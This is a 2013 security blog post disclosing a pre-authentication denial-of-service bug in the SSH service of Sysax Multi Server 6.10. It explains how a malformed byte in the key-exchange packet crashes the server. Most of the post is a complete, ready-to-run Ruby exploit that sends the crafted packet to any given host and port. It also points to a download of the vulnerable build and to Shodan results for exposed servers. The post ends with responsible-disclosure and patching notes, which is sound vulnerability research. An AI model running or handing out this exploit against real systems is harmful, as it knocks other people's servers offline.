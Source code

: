 ```yaml
---
title: "Sysax Multi Server 6.10 SSH DoS"
date: "2013-04-08T08:27:00-04:00"
comments: true
highlight: "true"
categories:
 - ssh
 - DoS
 - windows
 - sysax
 - exploit
 - metasploit
aliases:
 - "/2013/04/sysax-multi-server-610-ssh-dos.html"
---
```


I was recently fuzzing a bunch of SSH servers, hoping to find some remote code execution in a non-mainstream server. I ended up finding no code execution in the several that I tried, but I did find one pre-auth denial of service in Syax Multi Server 6.10.

<!-- more -->

## Try this at home!

The vulnerable version can be downloaded [here](https://www.dropbox.com/s/d6js8u6i4eioa1j/sysaxserv_setup_6.10.msi) for anyone that would like to duplicate the DoS conditions.

## Understanding the Key Exchange

I found that during the key exchange, where the SSH client and SSH server negotiate which ciphers to use, if you messed up just a single specific byte, the server would crash. I started reading through the [RFC](https://tools.ietf.org/html/rfc4253#section-7.1) for SSH keyexchange, and found the key exchange to be mostly ASCII.

{{% figure class="img-responsive" src="/img/sysax_ssh_hex.png" %}}


I started playing with the byte that caused the crash, and it seemed that it was some sort of control character, or separator. I'm still unsure. However, changing it would cause a crash every time.

{{% figure class="img-responsive" src="/img/sysax_ssh_hex2.png" %}}

I wasn't able to figure out any way to get remote code execution, although someone smarter than me, may be able to do it. For now, I'll settle with a DoS exploit.

## The exploit

```
#!/usr/bin/env ruby
# Sysax Multi Server 6.10 SSH DoS
# Matt "hostess" Andreko < mandreko [at] accuvant.com >
# http://www.mattandreko.com/2013/04/sysax-multi-server-610-ssh-dos.html

require 'socket'

unless ARGV.length == 2
  puts "Usage: ruby #{$0} [host] [port]\n"
  exit
end

packet = [0x00, 0x00, 0x03, 0x14, 0x08, 0x14, 0xff, 0x9f,
  0xde, 0x5d, 0x5f, 0xb3, 0x07, 0x8f, 0x49, 0xa7,
  0x79, 0x6a, 0x03, 0x3d, 0xaf, 0x55, 0x00, 0x00,
  0x00, 0x7e, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x2d, 0x65,
  0x78, 0x63, 0x68, 0x61, 0x6e, 0x67, 0x65, 0x2d,
  0x73, 0x68, 0x61, 0x32, 0x35, 0x36, 0x2c, 0x64,
  0x69, 0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65,
  0x6c, 0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72,
  0x6f, 0x75, 0x70, 0x2d, 0x65, 0x78, 0x63, 0x68,
  0x61, 0x6e, 0x67, 0x65, 0x2d, 0x73, 0x68, 0x61,
  0x31, 0x2c, 0x64, 0x69, 0x66, 0x66, 0x69, 0x65,
  0x2d, 0x68, 0x65, 0x6c, 0x6c, 0x6d, 0x61, 0x6e,
  0x2d, 0x67, 0x72, 0x6f, 0x75, 0x70, 0x31, 0x34,
  0x2d, 0x73, 0x68, 0x61, 0x31, 0x2c, 0x64, 0x69,
  0x66, 0x66, 0x69, 0x65, 0x2d, 0x68, 0x65, 0x6c,
  0x6c, 0x6d, 0x61, 0x6e, 0x2d, 0x67, 0x72, 0x6f,
  0x75, 0x70, 0x31, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x00, 0x00, 0x00, 0x0f, 0x73, 0x73, 0x68, 0x2d,
  0x72, 0x73, 0x61, 0x2c, 0x73, 0x73, 0x68, 0x2d,
  0x64, 0x73, 0x73, 0x00, 0x00, 0x00, 0x9d, 0x61,
  0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63, 0x62,
  0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77, 0x66,
  0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63, 0x66,
  0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c, 0x61,
  0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32, 0x35,
  0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f, 0x75,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39, 0x32,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65, 0x73,
  0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63, 0x2c,
  0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65, 0x6c,
  0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79, 0x73,
  0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69, 0x75,
  0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73, 0x31,
  0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c, 0x61,
  0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63, 0x74,
  0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35, 0x36,
  0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00, 0x9d,
  0x61, 0x65, 0x73, 0x31, 0x32, 0x38, 0x2d, 0x63,
  0x62, 0x63, 0x2c, 0x33, 0x64, 0x65, 0x73, 0x2d,
  0x63, 0x62, 0x63, 0x2c, 0x62, 0x6c, 0x6f, 0x77,
  0x66, 0x69, 0x73, 0x68, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x63, 0x61, 0x73, 0x74, 0x31, 0x32, 0x38,
  0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x72, 0x63,
  0x66, 0x6f, 0x75, 0x72, 0x31, 0x32, 0x38, 0x2c,
  0x61, 0x72, 0x63, 0x66, 0x6f, 0x75, 0x72, 0x32,
  0x35, 0x36, 0x2c, 0x61, 0x72, 0x63, 0x66, 0x6f,
  0x75, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x31, 0x39,
  0x32, 0x2d, 0x63, 0x62, 0x63, 0x2c, 0x61, 0x65,
  0x73, 0x32, 0x35, 0x36, 0x2d, 0x63, 0x62, 0x63,
  0x2c, 0x72, 0x69, 0x6a, 0x6e, 0x64, 0x61, 0x65,
  0x6c, 0x2d, 0x63, 0x62, 0x63, 0x40, 0x6c, 0x79,
  0x73, 0x61, 0x74, 0x6f, 0x72, 0x2e, 0x6c, 0x69,
  0x75, 0x2e, 0x73, 0x65, 0x2c, 0x61, 0x65, 0x73,
  0x31, 0x32, 0x38, 0x2d, 0x63, 0x74, 0x72, 0x2c,
  0x61, 0x65, 0x73, 0x31, 0x39, 0x32, 0x2d, 0x63,
  0x74, 0x72, 0x2c, 0x61, 0x65, 0x73, 0x32, 0x35,
  0x36, 0x2d, 0x63, 0x74, 0x72, 0x00, 0x00, 0x00,
  0x69, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64,
  0x35, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2c, 0x75, 0x6d, 0x61, 0x63,
  0x2d, 0x36, 0x34, 0x40, 0x6f, 0x70, 0x65, 0x6e,
  0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c,
  0x68, 0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70,
  0x65, 0x6d, 0x64, 0x31, 0x36, 0x30, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x72, 0x69, 0x70, 0x65,
  0x6d, 0x64, 0x31, 0x36, 0x30, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x68, 0x6d, 0x61, 0x63, 0x2d, 0x73,
  0x68, 0x61, 0x31, 0x2d, 0x39, 0x36, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2d,
  0x39, 0x36, 0x00, 0x00, 0x00, 0x69, 0x68, 0x6d,
  0x61, 0x63, 0x2d, 0x6d, 0x64, 0x35, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2c, 0x75, 0x6d, 0x61, 0x63, 0x2d, 0x36, 0x34,
  0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68,
  0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68, 0x6d, 0x61,
  0x63, 0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64,
  0x31, 0x36, 0x30, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x72, 0x69, 0x70, 0x65, 0x6d, 0x64, 0x31,
  0x36, 0x30, 0x40, 0x6f, 0x70, 0x65, 0x6e, 0x73,
  0x73, 0x68, 0x2e, 0x63, 0x6f, 0x6d, 0x2c, 0x68,
  0x6d, 0x61, 0x63, 0x2d, 0x73, 0x68, 0x61, 0x31,
  0x2d, 0x39, 0x36, 0x2c, 0x68, 0x6d, 0x61, 0x63,
  0x2d, 0x6d, 0x64, 0x35, 0x2d, 0x39, 0x36, 0x00,
  #3rd byte in this next line causes crash
  0x00, 0x00, 0x28, 0x7a, 0x6c, 0x69, 0x62, 0x40,
  0x6f, 0x70, 0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e,
  0x63, 0x6f, 0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62,
  0x2c, 0x6e, 0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00,
  0x1a, 0x7a, 0x6c, 0x69, 0x62, 0x40, 0x6f, 0x70,
  0x65, 0x6e, 0x73, 0x73, 0x68, 0x2e, 0x63, 0x6f,
  0x6d, 0x2c, 0x7a, 0x6c, 0x69, 0x62, 0x2c, 0x6e,
  0x6f, 0x6e, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00].pack("C*")

host = ARGV[0]
port = ARGV[1]

sock = TCPSocket.open(host, port)

banner = sock.gets()
puts banner

sock.puts("SSH-2.0-OpenSSH_5.1p1 Debian-5ubuntu1\r\n")
sock.puts(packet)
resp = sock.gets()

sock.close()
```

## Remediation

I contacted the developers of Sysax Multi Server on March 18 2013 and April 6 2013. They were able to release a new version (6.11) which is no longer vulnerable to this bug. If you're running Sysax Multi Server with SSH (off by default, but plenty of users on [ShodanHQ](http://www.shodanhq.com/search?q=sysax+port%3A22)), I would highly recommend updating to 6.11, available [here](http://www.sysax.com/download.htm#sysaxserv).

## Update:

It looks like the Metasploit module I wrote for this has been merged! You can view it [here](https://github.com/rapid7/metasploit-framework/blob/225342ce8f34b1af49e498c0cc6fa92c127187e8/modules/auxiliary/dos/windows/ssh/sysax_sshd_kexchange.rb)
